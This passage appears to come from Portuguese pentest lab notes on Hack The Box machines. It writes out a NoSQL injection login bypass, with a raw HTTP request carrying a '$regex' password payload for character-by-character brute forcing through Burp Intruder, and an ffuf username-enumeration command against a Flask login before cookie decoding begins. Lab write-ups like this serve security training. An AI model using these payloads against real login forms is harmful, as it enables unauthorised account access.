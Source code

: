     username[$regex]=^admin&password[$ne]=^t9KcS3>!0B#2§admin§&login=login
    ```
    
    Podemos utilizar o intruder para descobrir os username, e de cada vez que existir um caractere que retorne o status 302, coloca se novamente no 
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2040.png)
    
    ```
    POST / HTTP/1.1
    Host: staging-order.mango.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 41
    Origin: http://staging-order.mango.htb
    DNT: 1
    Connection: close
    Referer: http://staging-order.mango.htb/
    Cookie: PHPSESSID=2iam3rlq1fbaajte968f1el9nd
    Upgrade-Insecure-Requests: 1
    Sec-GPC: 1
    
    username=admin&password[$regex]=^t9KcS3>!0B#§admin§&login=login
    ```
    
    `username=admin&password[$regex]=^t9KcS3>!0B#§admin§&login=login`
    
- Flask-coockie
    
    Site com login e registo
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2041.png)
    
    É possível enumerar o utilizadores 
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2042.png)
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2043.png)
    
    `ffuf -u http://10.129.19.246:5000/login -d 'username=FUZZ&password=paulo' -H 'Content-Type: application/x-www-form-urlencoded' -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -mr 'Invalid login'`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2044.png)
    
    Quando entramos com o utilizador criado é nos fornecida uma coockie
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2045.png)
    
    O valor do cookie de sessão parece estar no formato dos cookies de sessão do Flask. Podemos usar este site para decodificar os dados do cookie a fim de ver os parâmetros que estão sendo definidos.
    